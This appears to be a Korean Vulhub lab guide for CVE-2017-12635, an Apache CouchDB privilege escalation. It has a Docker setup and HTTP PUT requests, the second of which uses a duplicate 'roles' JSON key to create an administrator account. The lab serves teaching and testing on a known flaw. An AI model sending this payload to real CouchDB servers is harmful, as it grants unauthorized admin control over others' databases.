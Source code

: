 # 아파치 Couchdb 원격 권한 상승 (CVE-2017-12635)

**Contributors**

-   [김민준(@jason1343)](https://github.com/jason1343)

아파치 CouchDB는 오픈 소스 문서 지향 NoSQL 데이터베이스로, Erlang으로 구현되었습니다. CouchDB는 데이터를 저장, 전송 및 처리하는 데 여러 형식과 프로토콜을 사용합니다. 데이터를 저장할 때 JSON을 사용하며, MapReduce를 사용하는 쿼리 언어로 JavaScript를 활용하고, API에는 HTTP를 사용합니다.

Apache CouchDB 1.7.0 이전 및 2.1.1 이전 버전에서 Erlang 기반 JSON 파서와 JavaScript 기반 JSON 파서 간의 차이로 인해, 데이터베이스 내에서 액세스 제어를 위해 사용되는 roles에 중복 키가 포함된 _users 문서를 제출할 수 있습니다. 이 중 _admin 역할은 관리자 사용자를 나타내는 특별한 경우로 사용됩니다.

참고 링크.

 - https://justi.cz/security/2017/11/14/couchdb-rce-npm.html
 - https://www.exploit-db.com/exploits/44498
 - http://bobao.360.cn/learning/detail/4716.html

## 환경 설정

환경을 컴파일 하고 시작해주세요.

```
docker compose up -d
```

환경이 시작된 후, ``http://your-ip:5984/_utils/``를 브라우징하여 웹 페이지를 볼 수 있으면, CouchDB가 성공적으로 시작되었음을 의미합니다. 그러나 로그인 없이는 아무 작업도 수행할 수 없습니다.

## 익스플로잇

데이터베이스에 유저를 추가하기 위한 기본적인 요청입니다.

```
PUT /_users/org.couchdb.user:vulhub HTTP/1.1
Host: your-ip:5984
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 90

{
  "type": "user",
  "name": "vulhub",
  "roles": ["_admin"],
  "password": "vulhub"
}
```

보시다시피, 403 오류가 반환됩니다: {"error": "forbidden", "reason": "Only _admin may set roles"}. 이는 관리자만이 이 엔드포인트를 사용할 수 있다는 것을 의미합니다.

![](1.png)

우회하려면 중복된 **roles**을 포함하는 요청을 보내야 합니다.

```
PUT /_users/org.couchdb.user:vulhub HTTP/1.1
Host: your-ip:5984
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 108

{
  "type": "user",
  "name": "vulhub",
  "roles": ["_admin"],
  "roles": [],
  "password": "vulhub"
}
```

성공적으로 `vulhub`유저가 `vulhub`의 비밀번호와 함께 생성되었습니다.

![](2.png)

로그인.

![](3.png)
